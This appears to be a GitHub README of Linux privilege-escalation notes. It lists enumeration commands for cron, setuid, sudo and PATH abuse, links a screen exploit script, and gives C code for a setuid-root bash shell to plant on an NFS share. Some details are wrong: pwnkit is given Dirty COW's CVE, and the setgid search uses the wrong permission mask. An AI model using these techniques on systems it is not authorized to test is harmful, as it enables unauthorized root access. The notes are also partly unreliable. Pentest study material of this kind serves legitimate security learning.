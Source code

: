 

**Linux Privilege Escalation **



# Kernel Exploit 

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) and pwnkit (CVE-2016-5195)

**Searching Kernel Version 

```
uname -a
```

```
cat /etc/lsb-release
```


# Vulnerable Service 

Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer [Screen](https://linux.die.net/man/1/screen)
In simple words services with older version which already have a exploit https://github.com/hac01/exploit/blob/main/lpe/screen4.5.0_exploit.sh


# Cron Job Abuse
Cron Jobs are set to run a particular Task at a particular interval of Times . For ex :- Running a script which backups a dir or entire OS after 3 days . 

How u abuse this to get root ??
Sometimes sysadmins makes major misconfiguration . For ex:- there is a script which backups x dir and it runs as root but all global user can make changes in that dir .  

```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

# Special Permissions
There are two types of permission setuid and setgid . 

Setuid permission let's to run a program as another user . Setuid bit appears with s. 

Setgid is another special permission which let's us run a program as we are part of the same group which created them . 

**Finding setuid**

```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

**Finding setgid**

```
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

# Sudo Rights Abuse

Sudo privs can be granted to a account allowing them to run certain command as root without the password of root user . 

**Finding **

```
sudo -l
```

# Path Abuse 
```
echo $PATH
shell-session
PATH=.:${PATH}
export PATH
```


# privileged groups 
Some groups have special rights over certain folder . 
for ex:- group called Adm has special root over /var/log u may not be able to get root but can definitely get sensitive information .  

# Other Technique 
1. U can sniff the traffic using tcpdump (if installed) . Which may result in getting clear text password . 

2. **NFS root squashing**

C code 
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}

```
now upload the compiled binary on nfs share with chmod u+s 

3. U can even try to hijack tmux session . 